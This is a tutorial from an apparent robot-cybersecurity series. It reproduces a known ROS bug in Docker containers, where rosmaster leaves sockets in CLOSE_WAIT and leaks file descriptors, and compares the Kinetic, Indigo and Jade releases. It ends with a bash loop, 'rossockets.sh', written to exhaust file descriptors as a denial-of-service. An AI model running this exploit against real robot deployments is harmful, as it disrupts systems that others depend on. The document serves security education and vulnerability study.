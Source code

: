 ### Sockets left open and in CLOSE_WAIT state in ROS (`Jade` distro and before)

In this tutorial we'll exploit the vulnerability. First reported in April 2015 at https://github.com/ros/ros_comm/issues/610, the underlying httplib in `ros_comm` implements things so that connections are only closed if you are sending the header "connection: close". Although a client might close the connection, the socket remains in the `CLOSE_WAIT state [3, 4].

----

**Note**: as in previous tutorials, there's a docker container that facilitates reproducing the work of this tutorial. The container can be built with:
```bash
docker build -t basic_cybersecurity13:latest .
```
and run with:
```bash
docker run -it basic_cybersecurity13:latest
```

----

### Reproducing the flaw

#### Kinetic
Let's start with `Kinetic` and attempt to reproduce it as reported at https://github.com/ros/ros_comm/issues/610#issuecomment-100301061:
```bash
docker build -f Dockerfile.kinetic -t basic_cybersecurity13:latest . # build the kinetic Dockerfile
docker run -it basic_cybersecurity13:latest
root@4256f9eb9567:~# roscore &
root@4256f9eb9567:~# roslaunch /opt/ros/kinetic/share/roscpp_tutorials/launch/talker_listener.launch
...
^C
root@4256f9eb9567:~# roslaunch /opt/ros/kinetic/share/roscpp_tutorials/launch/talker_listener.launch
...
^C

```

in another command line:
```bash
watch -n0 "lsof | grep rosmaster | grep -c CLOSE_WAIT"
Every 0.1s: lsof | grep rosmaster | grep -c CLOSE_WAIT                       Fri Nov  2 12:34:36 2018

0

```

at some point, while re-launching and re-stopping the launchfile, we'll see:
```bash
Every 0.1s: lsof | grep rosmaster | grep -c CLOSE_WAIT                       Fri Nov  2 12:37:29 2018

5
```
in those cases:
```bash
root@5f6d4b210151:/# netstat -aeltnp | grep CLOSE_WAIT
tcp        1      0 172.17.0.2:35586        172.17.0.2:34571        CLOSE_WAIT  0          196101      48/python
tcp        0      0 172.17.0.2:45520        172.17.0.2:11311        CLOSE_WAIT  0          136921      61/rosout
```

but as soon as `root@4256f9eb9567:~# roslaunch /opt/ros/kinetic/share/roscpp_tutorials/launch/talker_listener.launch` is executed again, the number of file descriptors return to 0.

There seems to be a small glitch in `Kinetic` distro but the FDs leakeage seems to be contained. **No issues with Kinetic distro**.

#### Indigo

```bash
docker build -f Dockerfile.indigo -t basic_cybersecurity13:latest . # build the indigo Dockerfile
docker run -it basic_cybersecurity13:latest
roscore &
roslaunch /opt/ros/indigo/share/roscpp_tutorials/launch/talker_listener.launch
... logging to /root/.ros/log/280ed2ea-de98-11e8-b9b0-0242ac110002/roslaunch-4256f9eb9567-1088.log
Checking log directory for disk usage. This may take awhile.
Press Ctrl-C to interrupt
Done checking log file disk usage. Usage is <1GB.

started roslaunch server http://4256f9eb9567:43961/

SUMMARY
========

PARAMETERS
 * /rosdistro: indigo
 * /rosversion: 1.11.21

NODES
  /
    listener (roscpp_tutorials/listener)
    talker (roscpp_tutorials/talker)

ROS_MASTER_URI=http://localhost:11311

core service [/rosout] found
process[listener-1]: started with pid [1106]
process[talker-2]: started with pid [1107]
[ INFO] [1541160590.106715200]: hello world 0
[ INFO] [1541160590.207328800]: hello world 1
...
^C
```

Repeat the following a few times:
```bash
roslaunch /opt/ros/indigo/share/roscpp_tutorials/launch/talker_listener.launch
... logging to /root/.ros/log/280ed2ea-de98-11e8-b9b0-0242ac110002/roslaunch-4256f9eb9567-1088.log
Checking log directory for disk usage. This may take awhile.
Press Ctrl-C to interrupt
Done checking log file disk usage. Usage is <1GB.

started roslaunch server http://4256f9eb9567:43961/

SUMMARY
========

PARAMETERS
 * /rosdistro: indigo
 * /rosversion: 1.11.21

NODES
  /
    listener (roscpp_tutorials/listener)
    talker (roscpp_tutorials/talker)

ROS_MASTER_URI=http://localhost:11311

core service [/rosout] found
process[listener-1]: started with pid [1106]
process[talker-2]: started with pid [1107]
[ INFO] [1541160590.106715200]: hello world 0
[ INFO] [1541160590.207328800]: hello world 1
...
^C
```
then

```bash
root@4256f9eb9567:~# lsof | grep rosmaster | grep -c CLOSE_WAIT
10
```

or:

```bash
root@4256f9eb9567:~# netstat -aeltnp | grep CLOSE_WAIT
tcp        1      0 172.17.0.2:57826        172.17.0.2:34649        CLOSE_WAIT  0          113151      1468/python
tcp        1      0 172.17.0.2:42052        172.17.0.2:37739        CLOSE_WAIT  0          114078      1468/python
tcp        0      0 172.17.0.2:45088        172.17.0.2:11311        CLOSE_WAIT  0          114002      1454/rosout
```

(note the correlation between the `python` Program Names sockets and the amount of file descriptors open (5 times that quantity to be precise)).

There is a FDs leakeage in `Indigo` distro.

#### Jade
Same issue applies to `Jade`, FDs leakeage.

### Automating the exploitation
The simplest way to do so is to put together a script that exploits the flaw and name it `rossockets.sh`:

```bash
#!/bin/bash
while true; do
roslaunch /opt/ros/indigo/share/roscpp_tutorials/launch/talker_listener.launch & sleep 2; kill -INT %+
done
```

then:
```bash
roscore &
./rossockets.sh > /tmp/dump.txt &
watch -n0 "lsof | grep rosmaster | grep -c CLOSE_WAIT"
```

you will see how the number of file descriptors will start increasing and reach one thousand in a few minutes.

### Resources
- [1] Mendia, G. O., Juan, L. U. S., Bascaran, X. P., Calvo, A. B., Cordero, A. H., Ugarte, I. Z., ... & Vilches, V. M. (2018). Robotics CTF (RCTF), a playground for robot hacking. arXiv preprint arXiv:1810.02690.
- [2] Scenarios of the Robotics CTF (RCTF), a playground to challenge robot security. Retrieved from https://github.com/aliasrobotics/RCTF
- [3] rosmaster leaves sockets in CLOSE_WAIT state. Retrieved from https://github.com/ros/ros_comm/issues/610.
- [4] Close CLOSE_WAIT sockets by default. Retrieved from https://github.com/ros/ros_comm/pull/1104.
